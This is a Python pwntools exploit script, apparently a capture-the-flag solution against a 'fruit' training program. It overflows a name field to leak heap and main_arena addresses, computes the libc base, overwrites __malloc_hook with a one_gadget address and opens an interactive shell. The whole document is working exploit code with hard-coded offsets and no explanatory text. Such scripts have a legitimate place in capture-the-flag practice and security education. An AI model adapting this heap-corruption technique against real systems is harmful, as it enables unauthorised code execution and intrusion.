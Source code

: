 ```python
l = ''
while "evolving" not in l: 
   train_fruit('0')
   l = p.recv(1024)
p.sendline('y')
p.sendline('112')
payload = p64(0x0101010101010101)*14
p.sendafter("be?", payload)

p.recv(1024)
list_fruits()
heap_leak = int(p.recvuntil('\x55')[-6:][::-1].encode('hex'), 16)

print "HEAP LEAK"
print hex(heap_leak)

heap_offset = -135120
heap_offset_2 = -134976

l = ''
while "evolving" not in l: 
   train_fruit('0')
   l = p.recv(1024)
p.sendlineafter('(y/n)', 'y')
p.sendlineafter('s)', '120')
payload = p64(0x0101010101010101)*14 + p64(heap_leak+heap_offset_2)
p.sendlineafter("be?", payload)

list_fruits()
p.recvuntil('Name: ')
p.recvuntil('Name: ')
main_arena = int(p.recv(1024)[:6][::-1].encode('hex'), 16)
print "MAIN ARENA"
print hex(main_arena)

libc_base = main_arena + -3951480
one_gadget = libc_base + 0xf02a4
malloc_hook = libc_base + 0x3c4b10

new_fruit(0x50, "one")
new_fruit(0x50, "two")

l = ''
while "evolving" not in l: 
   train_fruit('2')
   l = p.recv(1024)
p.sendlineafter('(y/n)', 'y')
p.sendlineafter('s)', '120')
payload = p64(0x0101010101010101)*14 + p64(malloc_hook)
p.sendlineafter("be?", payload)

train_fruit('3')
p.sendlineafter('(y/n)', 'y')
p.sendlineafter('s)', '8')
payload = p64(one_gadget)
p.sendlineafter("be?", payload)

p.sendline("1")

p.interactive()
```
